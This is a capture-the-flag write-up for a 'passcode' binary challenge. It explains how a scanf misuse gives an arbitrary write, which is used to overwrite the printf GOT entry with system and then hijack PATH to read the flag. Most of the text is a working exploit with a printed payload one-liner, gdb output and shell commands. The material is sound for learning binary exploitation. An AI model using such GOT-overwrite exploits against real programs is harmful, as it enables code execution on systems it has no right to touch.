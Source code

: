 # Passcode

In the `welcome` function there's a `scanf` for a name, which is padded to 100 bytes:

```c
void welcome(){
    char name[100];
    printf("enter you name : ");
    scanf("%100s", name);
    printf("Welcome %s!\n", name);
}
```

The program then asks for two passwords at `login`:

```c
int passcode1;
int passcode2;

printf("enter passcode1 : ");
scanf("%d", passcode1);
fflush(stdin);

// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
printf("enter passcode2 : ");
scanf("%d", passcode2);
```

There's a mistake there: scanf expects the address to which it should write the input, not the value. Thus it's going to write to whatever address is in the values of `passcode1` and `passcode2`.

They are then checked. If `passcode1 == 338150` and `passcode2 == 13371337`, we gain the shell.

This seems a bit too much in the beginning.

Let's check where in the stack are `name`, `passcode1` and `passcode2` being written. Perhaps we can fill in the passwords' initial values writing to the `name` buffer.

```bash
$ gdb passcode
>>> disas welcome
[...]
0x0804862f <+38>:	lea    edx,[ebp-0x70]
0x08048632 <+41>:	mov    DWORD PTR [esp+0x4],edx
0x08048636 <+45>:	mov    DWORD PTR [esp],eax
0x08048639 <+48>:	call   0x80484a0 <__isoc99_scanf@plt>
[...]
>>> disas login
[...]
0x0804857c login+24 mov    edx,DWORD PTR [ebp-0x10]
0x0804857f login+27 mov    DWORD PTR [esp+0x4],edx
0x08048583 login+31 mov    DWORD PTR [esp],eax
0x08048586 login+34 call   0x80484a0 <__isoc99_scanf@plt>
[...]
0x080485aa login+70 mov    edx,DWORD PTR [ebp-0xc]
0x080485ad login+73 mov    DWORD PTR [esp+0x4],edx
0x080485b1 login+77 mov    DWORD PTR [esp],eax
0x080485b4 login+80 call   0x80484a0 <__isoc99_scanf@plt>
>>> b *0x08048639
>>> b *0x08048586
>>> b *0x080485b4
>>> r
Breakpoint 1, 0x08048639 in welcome ()
>>> p $ebp-0x70
$1 = (void *) 0xffffcc58 # name
>>> c
enter your name : AAAA
Welcome AAAA!
Breakpoint 2, 0x08048586 in login ()
>>> p $ebp-0x10
$2 = (void *) 0xffffccb8 # passcode1
>>> c
enter passcode1 : A
Breakpoint 3, 0x080485b4 in login ()
>>> p $ebp-0xc
$3 = (void *) 0xffffccbc # passcode2
```

Once we hit the first breakpoint, just inspect $rbp-0x70. The same for `passcode1` and `passcode2`

If we subtract `name` from `passcode1` (0xffffccb8 - 0xffffcc58), we get 0x60 (96), thus the last 4 bytes of `name` are written to the initial value of passcode1.

This means we have an *arbitrary write*, because the scanf later on writes to the address in `passcode1`, which we can control. But what now? We need to write *two* passwords, not one.

If we write the address of `passcode2` into `passcode1`, we only control `passcode2`. What about `passcode1`?

But if we have an aribtrary write, we can also write to the `Global Offset Table`, redirecting the execution of any libc function in the program. Perhaps we can overwrite the `printf` entry, making it point to `system` instead. Where is it located?

```bash
$ objdump -s passcode
[...]
Contents of section .got.plt:
 8049ff4 289f0408 00000000 00000000 26840408  (...........&...
 804a004 36840408 46840408 56840408 66840408  6...F...V...f...
 804a014 76840408 86840408 96840408 a6840408  v...............
$ gdb passcode
>>> x 0x804a000
0x804a000 <printf@got.plt>: 0x08048426
>>> x 0x804a010
0x804a010 <system@got.plt>: 0x08048466
```

This means we have to write `0x08048466` into `0x804a000`.

The `passcode1` scanf expects a decimal number, so we provide `134513766` (0x08048466).

```bash
$ (python -c "print('a'*96+'\x00\xa0\x04\x08')"; sleep 1; printf "134513766") | ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!
sh: enter: command not found
enter passcode1 : checking...
Login Failed!
```

This is exactly what we wanted: `prinf` became `system`, although it returned an error because there's no `enter` comand, from the string `enter passcode2 : `.

Now we can write the enter command ourselves, reading the flag:

```bash
$ mkdir /tmp/pc
$ echo "/bin/cat flag" > /tmp/pc/enter
$ chmod +x /tmp/pc/enter
$ export PATH=/tmp/pc:$PATH
$ (python -c "print('a'*96+'\x00\xa0\x04\x08')"; sleep 1; printf "134513766") | ./passcode
```
